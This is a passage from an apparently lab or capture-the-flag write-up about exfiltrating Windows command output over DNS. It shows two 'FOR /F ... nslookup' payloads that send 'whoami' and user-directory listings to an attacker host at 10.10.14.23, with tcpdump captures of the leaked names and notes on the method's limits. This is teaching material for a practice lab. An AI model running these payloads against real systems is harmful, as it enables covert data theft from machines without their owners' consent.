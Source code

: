 What we want is to exfil the output of commands, by using the following payload we can start to output some stuff:

`FOR /F "tokens=1" %g IN 'whoami' do (nslookup %g 10.10.14.23)`

Output:

```
20:30:23.082437 IP (tos 0x0, ttl 127, id 8942, offset 0, flags [none], proto UDP (17), length 58)
    10.10.10.106.63713 > 10.10.14.23.53: [udp sum ok] 2+ A? etherealalan. (30)
```

Now, it's not perfect, we can't exfil special characters or anything else that is not a valid character in a DNS query. So in the query above, we can guess that the real output should be `ethereal\alan` instead of `etherealalan`.

So if we're listing directories, we have to use the /b flag so it only returns the name of the directory/file otherwise we'll need to play with the token parameter to indicate which item to read from the output.

Another example listing directories: `FOR /F "tokens=1" %g IN 'dir /b c:\users' do (nslookup %g 10.10.14.23)`

```
20:35:04.531929 IP (tos 0x0, ttl 127, id 9016, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.53805 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:06.823075 IP (tos 0x0, ttl 127, id 9017, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.53806 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:08.851451 IP (tos 0x0, ttl 127, id 9018, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.53807 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:10.839111 IP (tos 0x0, ttl 127, id 9019, offset 0, flags [none], proto UDP (17), length 59)
    10.10.10.106.53808 > 10.10.14.23.53: [udp sum ok] 2+ A? Administrator. (31)
20:35:12.854740 IP (tos 0x0, ttl 127, id 9020, offset 0, flags [none], proto UDP (17), length 59)
    10.10.10.106.53809 > 10.10.14.23.53: [udp sum ok] 3+ AAAA? Administrator. (31)
20:35:14.895892 IP (tos 0x0, ttl 127, id 9021, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.53810 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:16.886216 IP (tos 0x0, ttl 127, id 9022, offset 0, flags [none], proto UDP (17), length 50)
    10.10.10.106.53811 > 10.10.14.23.53: [udp sum ok] 2+ A? alan. (22)
20:35:19.474240 IP (tos 0x0, ttl 127, id 9023, offset 0, flags [none], proto UDP (17), length 50)
    10.10.10.106.53812 > 10.10.14.23.53: [udp sum ok] 3+ AAAA? alan. (22)
20:35:21.312568 IP (tos 0x0, ttl 127, id 9025, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.56757 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:23.309541 IP (tos 0x0, ttl 127, id 9028, offset 0, flags [none], proto UDP (17), length 51)
    10.10.10.106.56758 > 10.10.14.23.53: [udp sum ok] 2+ A? jorge. (23)
20:35:25.299775 IP (tos 0x0, ttl 127, id 9029, offset 0, flags [none], proto UDP (17), length 51)
    10.10.10.106.56759 > 10.10.14.23.53: [udp sum ok] 3+ AAAA? jorge. (23)
20:35:27.338241 IP (tos 0x0, ttl 127, id 9031, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.56760 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:29.355372 IP (tos 0x0, ttl 127, id 9032, offset 0, flags [none], proto UDP (17), length 52)
    10.10.10.106.56761 > 10.10.14.23.53: [udp sum ok] 2+ A? Public. (24)
20:35:31.523795 IP (tos 0x0, ttl 127, id 9034, offset 0, flags [none], proto UDP (17), length 52)
    10.10.10.106.56762 > 10.10.14.23.53: [udp sum ok] 3+ AAAA? Public. (24)
20:35:33.646114 IP (tos 0x0, ttl 127, id 9035, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.56763 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:35.669198 IP (tos 0x0, ttl 127, id 9038, offset 0, flags [none], proto UDP (17), length 51)
    10.10.10.106.58924 > 10.10.14.23.53: [udp sum ok] 2+ A? rupal. (23)
20:35:37.681147 IP (tos 0x0, ttl 127, id 9040, offset 0, flags [none], proto UDP (17), length 51)
    10.10.10.106.58925 > 10.10.14.23.53: [udp sum ok] 3+ AAAA? rupal. (23)
```
